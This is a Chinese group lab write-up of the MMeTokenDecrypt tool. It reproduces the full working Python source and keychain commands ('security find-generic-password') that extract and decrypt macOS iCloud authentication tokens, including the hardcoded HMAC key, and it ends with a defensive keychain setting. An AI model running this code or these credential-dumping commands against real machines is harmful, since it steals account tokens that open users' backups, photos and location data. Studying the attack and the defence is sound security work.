

2017.07 小组实验操作。成员：布兜儿，AloneMonkey，chensh，kiba， mAd mArk

# MMeTokenDecrypt 简介

[MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt) 工具提供了一个脚本，用于解码出 macOS/OS X/OSX 上所有的授权 Token。这是利用了系统中授权的钥匙链访问方式的漏洞。

授权 Token 存放在文件存储在 `/Users/*/Library/Application Support/iCloud/Accounts/` 目录下，以你的 iCloud 账号命名的一个**DSID**文件。DSID 是一个数字，是苹果对于每个 iCloud 账号在系统后端中的标识符。

DSID 文件使用一个空的初始化向量和 AES-128 CBC 算法加密。用于解密这个文件的密钥存放在用户的钥匙串(keychain)中，在系统服务 iCloud 下，名字是和 iCloud 账号关联的首选邮箱。

系统解密这个 DSID 文件时，就会从 keyChain 里拿出解密密钥，该密钥格式是 base64，用 base64 解码后，作为 Hmac 算法的消息体输入。Hmac 算法中使用的密钥是硬编码到 MacOS 系统内部中的，是44个字符长的随机字母，为 `t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}`。是的，大家的都一样。以上提到的这两个密钥进行了 MD5 加密，得到一把新的钥匙，然后就可以解密 DSID 文件啦！

由于44个字符长的密钥我们已经知道了（在 MMeTokenDecrypt 的源码中就有），所以重点在如何获取 keychain 中的密钥。

# keychain 中的密钥

在钥匙串通过搜索iCloud，你可以看到一个用你iCloud相关账号的邮箱地址命名的条目。


既然存在钥匙串中，那么我们尝试访问的时候会有下图的警告，一旦点击“允许”，相关的token就能被拿到了。而黑客可以通过代码不停的弹出提示直到你点击“允许”。


通过命令行的方式也可以进行此操作。输入以下命令：

```Shell
$ security find-generic-password -ga 'Chrome'
```

这里使用到了 security命令，它是非常强大命令行安全工具。参数解释如下：

> **find-generic-password** ，是使用“查找密码”的功能。   
> **-a**，这个参数是匹配类型为“账户”的，用于过滤。   
> **-g**，这个参数是将查询到的密码显示出来。


MMeTokenDecrypt 工具 fork 了一个新的安全的、苹果签名了的进程来解密授权文件，用户对弹出的钥匙链请求对话框并不会感觉危险。攻击者还可以重复的请求访问钥匙链，直到用户同意访问，因为苹果并未限制被拒绝后需要等待的时间。这就允许解码 iCloud 的所有授权 token，这些 token 就能用于访问几乎所有的 iCloud 服务器，包括 iOS 备份，iCloud 联系人，iCloud 照片库，查找我的朋友，定位我的手机等。

# 源码解析

1.导入使用的库

```python
#!/usr/bin/env python
#coding: utf-8

## 导入使用的库
import base64, hashlib, hmac, subprocess, sys, glob, os, binascii
from Foundation import NSData, NSPropertyListSerialization
```

2.在 python 中，我们可以使用 subprocess 库来运行外部程序，将shell 环境下命令运行的结果返回到本程序。如果没有获取到，则打印报错信息，再退出程序。运行 ` security find-generic-password -ws 'iCloud'` 命令，其中 -w 参数是用于仅显示密码项。-s 参数是用于指定类型为 server 的条目，并匹配后面的关键词。

```python
# 获取 iCloud 的密匙
iCloudKey = subprocess.check_output("security find-generic-password -ws 'iCloud' | awk {'print $1'}", shell=True).replace("\n", "")
if iCloudKey == "":
    print "Error getting iCloud Decryption Key"
    sys.exit()
```

得到 iCloud 的密码后，我们将其进行 base64 解码。

```python
# 解码 iCloud 的密匙
msg = base64.b64decode(iCloudKey)
```

3.在 hmac.new 函数中传入这个 key 和上一步拿到的 msg，进行 MD5 hash，并做了16进制的转换。

```python
# 硬编码在系统中的字符串
#Constant key used for hashing Hmac on all versions of MacOS. 
#this is the secret to the decryption!
#/System/Library/PrivateFrameworks/AOSKit.framework/Versions/A/AOSKit yields the following subroutine
#KeychainAccountStorage _generateKeyFromData:
#that uses the below key that calls CCHmac to generate a Hmac that serves as the decryption key
key = "t9s\"lx^awe.580Gj%'ld+0LG<#9xa?>vb)-fkwb92[}"

# 将 iCloud 解码后的数据作为 Hmac 中的消息
# 将硬编码在系统中的字符串作为 Hmac 中的密匙
# md5 算法作为 Hmac 中的哈希算法
#create Hmac with this key and iCloudKey using md5
hashed = hmac.new(key, msg, digestmod=hashlib.md5).digest()
hexedKey = binascii.hexlify(hashed) #turn into hex for openssl subprocess
```

4.这里声明了一个空的 IV，随后遍历了`/Library/Application Support/iCloud/Accounts/*`下的文件，如果有文件则打印出该文件地址

```python
IV = 16 * '0'
mmeTokenFile = glob.glob("%s/Library/Application Support/iCloud/Accounts/*" % os.path.expanduser("~"))
for x in mmeTokenFile:
    try:
        int(x.split("/")[-1]) #if we can cast to int, that means we have the DSID / account file.
        mmeTokenFile = x
    except ValueError:
        continue
if not isinstance(mmeTokenFile, str):
    print "Could not find MMeTokenFile. You can specify the file manually."
    sys.exit()
else:
    print "Decrypting token plist -> [%s]\n" % mmeTokenFile
```

5.接下来我们使用openssl这个命令行工具，将一个空的初始化向量IV和上面已经被16进制转换的密钥，以及我们找到DSID文件，进行128位的AES解密。这一步得到的是一个解密后的二进制文件。

```python
decryptedBinary = subprocess.check_output("openssl enc -d -aes-128-cbc -iv '%s' -K %s < '%s'" % (IV, hexedKey, mmeTokenFile), shell=True)
```

6.我们使用Foundation库里面的类来将它转化为可读取的plist格式。然后遍历这个plist格式对象，将其中的内容打印出来。

```python
binToPlist = NSData.dataWithBytes_length_(decryptedBinary, len(decryptedBinary))

tokenPlist = NSPropertyListSerialization.propertyListWithData_options_format_error_(binToPlist, 0, None, None)[0]

print "Successfully decrypted token plist!\n"
print "%s [%s -> %s]" % (tokenPlist["appleAccountInfo"]["primaryEmail"], tokenPlist["appleAccountInfo"]["fullName"], tokenPlist["appleAccountInfo"]["dsPrsID"])
print tokenPlist["tokens"]
```
# 运行

先获取 [MMeTokenDecrypt.py 文件](https://github.com/manwhoami/MMeTokenDecrypt)，然后在终端中输入:

```
$ python MMeTokenDecrypt.py
```

这个源码文件会获取 iCloud 相关的所有 token，并且罗列出来。

如果你所使用的 python 是通过 homebrew 安装的，可能会碰到以下错误：

```
Traceback (most recent call last):
  File "MMeDecrypt.py", line 2, in <module>
    from Foundation import NSData, NSPropertyListSerialization
ImportError: No module named Foundation

```

你可以尝试指定系统默认的 python 路径来执行 `MMeDecrypt.py`
比如：

```
/usr/bin/python MMeDecrypt.py
```

如果运行正常我们就可以看到相关 token 打印出来了。执行结果：


# 防御

点击keychain 里面那个chrome safe storage的条目，右键选择**显示简介**。

切换到**访问控制**的面板，将**询问钥匙串密码**选中。


这里有一个小bug，keychain里面的更改需要重复两次操作，才能修改成功，当我们勾选了这个选项，切换到*属性*然后再切换回来的时候，发现这个选项并没有被选中，需要再重复操作一遍才行。

然后我们回到命令行，重新输入上面security的命令，这一次我们发现弹窗出来不一样了。这里需要我们输入钥匙串密码。



当我们开启这个选项，就算别人偷偷用你的电脑，没有你的钥匙串密码，也无法得到其中的安全信息。
